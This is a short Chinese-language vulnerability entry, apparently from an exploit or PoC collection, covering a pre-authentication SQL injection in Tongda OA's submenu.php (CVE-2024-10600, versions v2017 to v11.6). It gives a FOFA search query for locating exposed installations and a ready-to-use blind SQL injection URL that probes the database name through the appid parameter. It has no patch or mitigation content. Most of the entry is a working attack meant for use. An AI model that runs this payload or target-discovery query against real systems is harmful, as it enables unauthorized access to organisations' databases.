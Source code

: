 # 通达OA前台submenu.php存在SQL注入漏洞(CVE-2024-10600)

pda/appcenter/submenu.php 未包含inc/auth.inc.php且 $appid 参数未用'包裹导致前台SQL注入

## 影响范围

v2017-v11.6

## fofa

```javascript
app="TDXK-通达OA" && icon_hash="-759108386"
```

## poc

```javascript
http://192.168.0.106/pda/appcenter/submenu.php?appid=1%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)
```

![53147e26ebbc31217d5db726977a1f4f](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411101147145.png)



## 漏洞来源

- https://github.com/LvZCh/td/issues/3
- https://mp.weixin.qq.com/s/TL1QWIpSpnrqcJ4rTXTTdQ
